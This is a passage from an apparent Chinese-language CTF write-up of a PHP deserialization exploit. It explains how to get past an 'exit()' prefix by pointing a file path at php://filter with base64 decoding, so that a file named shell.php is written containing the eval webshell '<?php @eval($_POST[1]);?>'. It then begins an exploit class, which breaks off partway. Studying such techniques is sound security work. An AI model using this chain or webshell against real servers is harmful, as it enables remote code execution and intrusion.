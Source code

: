 ```
不过base64算法解码时是4个字节一组，所以我们还需要在前面加个字符

不急慢慢来

中间部分sprintf('%012d', $expire)代表12个字节

然后我们base64解码后只剩的php//exit有9个字节,总共还有21个字节,为了解码后不影响我们写入的webshell,我们还需要加3个字节

由于filename是拼接的字符串$this->options['prefix'] . $name,所以我们可以利用php://filter过滤器写文件

$this->options[‘prefix’]=’php://filter/write=convert.base64-decode/resource=’

这样我们的filename就是php://filter/write=convert.base64-decode/resource=shell.php

对写入的shell进行解码就只有php//exit了

但是$data是拼接的字符串

$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;

 

所以后面的$data就是我们的webshell

来自于经过serialize函数处理后的$contents

现在对$contents进行构造了

$this->cache=array()

$this->complete=base64_encode(‘123’.base64_encode(‘<?php @eval($_POST[1]);?>’))

第一个base64编码是为了绕过json_encode

第二个base64编码是为了防止php://filter过滤器对写入后面造成过滤处理

 
```



贴exp

```
<?php

class A {

 

  protected $store;

  protected $key;

  protected $expire;

  public function __construct(){

    $this->key='shell.php';

    $this->store=new B();

    $this->expire=0;

    $this->cache=array();
```